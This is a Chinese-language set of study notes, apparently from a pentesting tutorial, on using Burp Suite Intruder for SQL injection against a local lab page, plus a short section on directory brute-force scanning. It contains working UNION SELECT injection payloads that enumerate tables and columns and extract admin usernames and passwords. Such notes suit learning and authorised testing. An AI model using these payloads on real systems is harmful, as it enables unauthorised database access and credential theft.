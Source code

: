 用 BP 抓个包 比如 http://192.168.1.102/inject.php?id=1

`在1后面加a 1$a$ a设置成字段。`

Payloads- Payloads Options , Load , 找 FuzzLists 目录下的 sqli-union-select

用 Intruder 开始攻击, 查看结果-Response

查看结果后 确定为 3 个字段，在结果里右击查询 3 字段的发送到 repeater, Go 一下。

     在params里 select%201,2,3 from a   测试a表是否存在。显示 doesn't exist, 将它 设置成Grep Match 字段进行过滤。
     payloads load,  common-tables进行start attack。

查看结果， 确定 admin 为表名。继续修改 params 猜列名

        select%201,a,3%20from%20admin 显示 unkonwn column ，将请求必到Intruder,
          将 a 设置成变量， unkonwn column为过滤字段。
          payload - load, comman - column
          start attack,查看结果。
          确定了id , password, 列。
        -1 union all select%201,password,3%20from%20admin
        -1 union all select%201,password,3%20from%20admin limit 0, 1

发到 Intruder

    id=1 union all select 1,2,3 from admin#
    id=1 union all select 1,password,3 from admin#
    id=1 union all select 1,concat(id, username, password),3 from admin#
    id=1 union all select 1,concat(id,0x7c, username,0x7c, password),3 from admin#
     0x7c是管理符 |

发到 intruder,

      limit%20$0$,1 这里将0改为字段了。limit参数为：偏移量，最大数目

      payload type: numbers,
        from 0, to 3, step 1,
      start attack

Grep Extract, add 选中后会自动正则。 清除多余的过滤。b

菜单栏 save - result table, 只留一个正则。保存

## Burp Suite 目录与文件扫描测试

1.抓包 history 中， 发到 Intruder

2.Positions

```
payload 加载  php去重复.txt 字典
payload 选项卡 中有 Payload Encoding √要去掉 （否则会编码/符号）
start attack
在结果列表， Filter 只勾2xx
```

## 联动 xray
